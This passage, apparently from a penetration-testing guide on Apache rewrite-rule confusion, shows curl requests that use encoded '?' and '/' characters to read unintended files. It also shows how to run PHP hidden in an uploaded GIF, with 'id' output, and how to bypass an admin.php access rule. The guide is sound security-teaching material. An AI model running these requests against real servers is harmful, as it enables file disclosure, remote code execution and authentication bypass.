 ```bash
RewriteEngine On
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"

# Expected
curl http://server/user/orange
# the output of file `/var/user/orange/profile.yml`

# Attack
curl http://server/user/orange%2Fsecret.yml%3F
# the output of file `/var/user/orange/secret.yml`
```

* **Mislead RewriteFlag Assignment**

In the following rewrite rule, as long as the URL ends in .php it's going to be treated and executed as php. Therefore, it's possible send a URL that ends in .php after the `?` char while loading in the path a different type of file (like an image) with malicious php code inside of it:

```bash
RewriteEngine On
RewriteRule  ^(.+\.php)$  $1  [H=application/x-httpd-php]

# Attacker uploads a gif file with some php code
curl http://server/upload/1.gif
# GIF89a <?=`id`;>

# Make the server execute the php code
curl http://server/upload/1.gif%3fooo.php
# GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### **ACL Bypass**

It's possible to access files the user shouldn't be able to access even if the access should be denied with configurations like:

```xml
<Files "admin.php">
    AuthType Basic 
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```

This is because by default PHP-FPM will receive URLs ending in `.php`, like `http://server/admin.php%3Fooo.php` and because PHP-FPM will remove anything after the character `?`, the previous URL will allow to load `/admin.php` even if the previous rule prohibited it.

### DocumentRoot Confusion

```bash
DocumentRoot /var/www/html
RewriteRule  ^/html/(.*)$   /$1.html
```
